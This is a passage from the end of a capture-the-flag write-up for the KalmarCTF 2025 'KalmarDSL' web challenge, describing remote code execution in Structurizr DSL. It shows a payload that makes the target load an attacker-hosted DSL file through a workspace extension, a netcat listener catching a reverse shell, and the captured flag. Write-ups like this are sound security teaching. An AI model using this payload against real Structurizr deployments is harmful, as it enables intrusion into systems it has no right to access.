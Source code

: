 - Submit our DSL payload:

```
workspace extends http://kmfe5wjp.requestrepo.com/exploit.dsl {
    
}
```

- Submit and profit!

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/KalmarDSL)-[2025.03.13|16:41:20(HKT)]
└> nc -lnvp 4444             
[...]
Connection received on 127.0.0.1 47932
/bin/sh: 0: can't access tty; job control turned off
$ whoami; id; hostname
tomcatuser
uid=999(tomcatuser) gid=999(tomcatgroup) groups=999(tomcatgroup)
c1dd053b8164
$ 
```

```shell
$ /would you be so kind to provide me with a flag 
kalmar{Y0_d4wg_I_He4rd_y0U_l1ke_DSL_s0_I_extended_y0ur_DSL_W1th_a_R3m0t3_DSL}
```

- **Flag: `kalmar{Y0_d4wg_I_He4rd_y0U_l1ke_DSL_s0_I_extended_y0ur_DSL_W1th_a_R3m0t3_DSL}`**

## Conclusion

What we've learned:

1. Structurizr DSL Remote Code Execution via workspace extension